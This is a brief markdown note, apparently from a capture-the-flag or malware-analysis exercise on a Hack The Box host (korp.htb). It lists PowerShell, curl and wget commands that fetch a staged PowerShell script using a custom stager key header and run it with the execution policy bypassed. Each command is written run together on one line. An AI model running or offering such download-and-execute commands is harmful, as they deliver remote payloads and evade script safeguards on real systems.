 
2025-03-26 16:03

Source: 

Tags: 

### **Using PowerShell (Windows)**

Run this command to manually execute the request in PowerShell:

`Invoke-WebRequest -Uri "http://korp.htb:53673/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1 powershell.exe -exec Bypass -File "a541a.ps1"`

### **Using `curl` (Linux/macOS/Windows)**

On Linux or Windows (with WSL), use `curl`:

`curl -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" -o a541a.ps1 http://korp.htb:53673/a541a powershell -exec Bypass -File "a541a.ps1"`

### **Using `wget` (Linux/macOS)**

`wget --header="X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" -O a541a.ps1 http://korp.htb:53673/a541a powershell -exec Bypass -File "a541a.ps1"`


### References

